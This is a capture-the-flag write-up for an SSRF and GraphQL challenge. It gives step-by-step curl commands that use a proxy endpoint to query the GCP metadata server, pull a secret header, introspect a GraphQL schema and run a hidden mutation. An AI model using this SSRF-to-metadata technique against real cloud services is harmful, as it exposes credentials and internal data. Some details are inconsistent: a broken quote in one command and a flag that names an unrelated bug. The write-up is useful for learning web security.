 # 🛰️ The Great Juche Jaguar GraphQL Heist — CTF Write-up

**Category:** Web Exploitation / SSRF / GraphQL  
**Points:** 300  
**Solves:** 58

---

## 🎯 Challenge Summary

The Juche Jaguar intranet exposes a vulnerable proxy endpoint:
```
/proxy?url=
```
This can be abused to:
- Reach the Google Cloud metadata server
- Extract a one-time secret from the metadata
- Use that secret as a custom header to POST to `/graphql`
- Introspect the GraphQL schema to find a random mutation
- Execute the mutation and retrieve the flag

> Challenge Server: `http://34.86.186.68:8080`

---

## 🛠️ Tools Used
- `curl`
- `base64`
- Linux CLI
- `jq` (optional JSON parser)

---

## 🪜 Steps to Solve

### 🔹 Step 1: SSRF to Metadata Server
We started probing the GCP metadata server:
```
http://169.254.169.254/computeMetadata/v1/instance/attributes/
```
Using the proxy:
```bash
curl "http://34.86.186.68:8080/proxy?url=http%3A%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2F" \
  -H "Metadata-Flavor: Google"
```
**Result:**
```
X-JJ-SECRET
ssh-keys
```

---

### 🔹 Step 2: Extract the Secret Header
```bash
curl "http://34.86.186.68:8080/proxy?url=http%3A%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2FX-JJ-SECRET" \
  -H "Metadata-Flavor: Google"
```
**Response:**
```
S3NT1N3L
```

---

### 🔹 Step 3: GraphQL Schema Introspection
POST to `/graphql` using the secret:
```bash
curl -X POST http://34.86.186.68:8080/graphql \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  --data '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```
**Result:** (base64-encoded)

```bash
echo 'eyJkYXRhIjp7Il9fc2NoZW1hIjp7Im11dGF0aW9uVHlwZSI6eyJmaWVsZHMiOlt7Im5hbWUiOiJtMzA5ZTUzMzYifV19fX19' | base64 -d
```
**Decoded:**
```
m309e5336
```

---

### 🔹 Step 4: Execute the Mutation
```bash
curl -X POST http://34.86.186.68:8080/graphql \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  --data '{"query":"mutation { m309e5336 }"}'
```
**Output:** Another base64-encoded flag response

---

### 🔹 Step 5: Decode the Flag
```bash
echo 'eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMx...'} | base64 -d
```
✅ **Final Flag:**
```
C1{ssti_r3m0t3_c0d3_x3c}
```

---

## 🧠 Key Takeaways
- SSRF via query string (`/proxy?url=`)
- GCP internal metadata abuse
- Extracting secret headers via metadata attributes
- GraphQL introspection and schema discovery
- Dynamic mutation name detection
- Multi-step API exploitation

---

